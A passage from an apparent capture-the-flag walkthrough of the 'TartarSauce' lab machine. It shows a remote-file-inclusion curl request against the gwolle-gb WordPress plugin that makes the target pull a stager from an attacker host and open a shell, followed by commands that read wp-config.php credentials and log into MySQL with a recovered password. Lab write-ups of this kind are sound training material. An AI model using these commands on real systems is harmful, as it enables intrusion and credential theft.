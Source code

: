 ```bash
# send RFI request for stager
curl -s http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.25/
```

And this returns a shell but not `user.txt`:

![user1](./tartarsauce/user1.png)

After connecting, since there is a WordPress instance, get the MySQL DB password and try to crack any password hashes for the WordPress instance and check for password re-use:

```bash
find / -iname wp-config.php 2>/dev/null
cat /var/www/html/webservices/wp/wp-config.php | grep define
```

![user2](./tartarsauce/user2.png)

Now connect to the database:

```bash
mysql -u wpuser -p'w0rdpr3$$d@t@b@$3@cc3$$' -h 127.0.0.1
```
